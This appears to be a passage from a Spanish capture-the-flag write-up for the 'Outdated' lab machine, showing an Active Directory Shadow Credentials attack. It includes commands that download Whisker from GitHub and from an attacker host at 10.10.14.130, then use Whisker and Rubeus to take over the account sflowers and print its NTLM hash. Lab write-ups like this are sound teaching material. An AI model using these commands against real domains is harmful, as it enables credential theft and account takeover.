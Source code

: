 ![Análisis de BloodHound](/secciones/posts/imagenes/outdated/sharp1.png)

### Shadow Credentials

Podemos explotar esto usando la técnica de "Shadow Credentials" (https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/shadow-credentials), que requiere Whisker:

```bash
curl -s https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-Whisker.ps1 | grep FromBAsE64String | cut -d '"' -f 2 | base64 -d > Whisker.gz
gunzip Whisker.gz
mv Whisker Whisker.exe
```

### Obteniendo acceso como sflowers

```powershell
# Subir binarios
C:\Users\btables\AppData\Local\Temp\SDIAG_80424d7e-875a-4f69-ae89-1166ec1effd9> powershell.exe Invoke-WebRequest -Uri "http://10.10.14.130/Whisker.exe" -OutFile Whisker.exe

# Agregar nueva credencial shadow a sflowers
C:\Users\btables\AppData\Local\Temp\SDIAG_80424d7e-875a-4f69-ae89-1166ec1effd9> Whisker.exe add /target:sflowers

[...]
Rubeus.exe asktgt /user:sflowers /certificate:"<BASE64_CERTIFICATE>" /password:"<PASSWORD>" /domain:outdated.htb /dc:DC.outdated.htb /getcredentials /show

# Ejecutar el comando generado de Rubeus para obtener el hash NTLM de sflowers
C:\Users\btables\AppData\Local\Temp\SDIAG_80424d7e-875a-4f69-ae89-1166ec1effd9> 

[*] Getting credentials using U2U

  CredentialInfo         :
    Version              : 0
    EncryptionType       : rc4_hmac
    CredentialData       :
      CredentialCount    : 1
       NTLM              : 1FCDB1F6015DCB318CC77BB2BDA14DB5
```
